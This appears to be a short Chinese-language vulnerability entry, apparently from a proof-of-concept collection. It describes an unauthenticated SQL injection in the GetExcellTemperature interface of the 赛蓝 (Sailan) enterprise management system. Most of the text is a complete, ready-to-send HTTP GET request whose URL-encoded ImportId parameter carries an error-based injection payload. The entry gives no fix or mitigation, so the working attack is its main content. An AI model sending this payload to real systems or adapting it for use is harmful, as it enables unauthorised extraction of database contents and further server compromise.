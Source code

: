 **漏洞描述：**

赛蓝企业管理系统GetExcellTemperature接口存在SQL注入漏洞，未经身份验证的远程攻击者可以利用SQL注入漏洞获取数据库敏感信息，提权后进一步获取服务器系统权限。

**影响版本：**

赛蓝企业管理系统

**Payload：**

```jsx
GET /BaseModule/ExcelImport/GetExcellTemperature?ImportId=%27%20AND%206935%20IN%20(SELECT%20(CHAR(113)%2BCHAR(122)%2BCHAR(112)%2BCHAR(106)%2BCHAR(113)%2B(SELECT%20(CASE%20WHEN%20(6935%3D6935)%20THEN%20CHAR(49)%20ELSE%20CHAR(48)%20END))%2BCHAR(113)%2BCHAR(122)%2BCHAR(113)%2BCHAR(118)%2BCHAR(113)))%20AND%20%27qaq%27=%27qaq HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```

---
